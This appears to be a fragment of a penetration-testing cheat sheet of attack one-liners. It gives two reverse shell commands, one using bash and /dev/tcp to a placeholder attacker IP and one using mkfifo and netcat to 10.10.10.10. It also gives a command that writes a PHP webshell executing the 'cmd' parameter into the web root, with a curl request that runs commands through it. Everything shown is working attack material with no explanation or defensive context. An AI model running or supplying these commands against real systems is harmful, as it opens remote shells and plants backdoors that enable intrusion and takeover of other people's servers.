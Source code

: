 #### Reverse Shell One-liner
```
bash -i >& /dev/tcp/{attacker IP}/8080 0>&1
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```


#### webshell php

- `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`
- `curl http://SERVER_IP:PORT/shell.php?cmd=id`
